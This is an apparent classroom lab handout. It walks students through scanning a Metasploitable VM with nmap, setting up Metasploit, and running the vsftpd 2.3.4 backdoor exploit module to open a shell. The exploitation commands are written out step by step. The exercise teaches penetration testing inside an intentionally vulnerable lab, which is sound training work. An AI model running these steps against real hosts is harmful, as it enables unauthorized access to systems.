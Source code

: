 # Lab 5 - Vulnerability Exploitation

## **Lab Preparation**

Ensure that both the Kali and the metasploitable machines are powered on and on the
same network. Verify connectivity between them by using the ping command.

 1. Run nmap against the metasploitable machine using the following command.

	- ```sudo nmap -sV <metasploitable IP> -vvv``` 

	- Make note of open ports and services.

	- Make note of what port VSFTPD service is running.

 2. Start the Kali PostgreSQL service (which Metasploit uses as its backend) by
running the following command.

	- ```sudo systemctl start postgresql```

 3. Initialize the Metasploit PostgreSQL database by running the following command.

	- ```sudo msfdb init```

 4. Launch msfconsole

	- ```msfconsole```

 5. Check the database connectivity using the following command.

	- ```db_status``` (it should say connected).

 6. Explore the search command by typing "help search".

 7. Search for an VSFTPD exploit.

	- ```search type:exploit name:vsftp```

 8. How many exploits were found?

 9. Select the found exploit by typing the following command.

	- ```use exploit/unix/ftp/vsftpd_234_backdoor```

 10. Review the options of the exploit by typing the following command.

	- ```show options```

 11. Set the remote host and the remote ports by using the following commands.

	- ```set RHOSTS <Metasploitable IP Address>

	- ```set RPORT <VSFTPD port number>

 12. Verify what payloads are available by using the "show payloads" command.

 13. How many payloads are available?

 14. Run the exploit by using the following command.

	- ```exploit```

 15. Once the shell is opened type ```hostname```, followed by ```ifconfig```. Include screenshot of output.
